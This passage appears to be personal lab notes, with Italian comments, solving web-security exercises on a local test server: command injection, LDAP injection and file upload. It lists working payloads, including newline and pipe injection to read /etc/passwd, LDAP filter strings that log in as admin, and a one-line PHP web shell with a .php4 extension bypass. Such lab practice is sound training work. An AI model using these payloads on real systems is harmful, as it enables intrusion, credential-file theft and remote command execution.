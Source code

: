 
### 2

```jsx
?ip=127.0.0.1%0acat%20/etc/passwd
```

---

### 3

```jsx

echo -e "GET http://127.0.0.1/commandexec/example3.php?ip=127.0.0.1|uname+-a HTTP/1.0\r\n" | nc 127.0.0.1 80
# forse non va
```

---

## LDAP

### 1

```bash
?
```

### 2

```bash
?name=a*)(cn=*))%00 -> per autenticarsi come admin
?name=hacker)(cn=*))%00 -> per autenticarsi come hacker
```

## File Upload

### 1

```bash
# creo e upload file a.php con:
<?php
  system($_GET["cmd"]);
?>
# nella pagina .../a.php aperta cliccando su "here" aggiungo:
?cmd=ls
```

### 2

```jsx
uguale ma il file va salvato come .php4
```

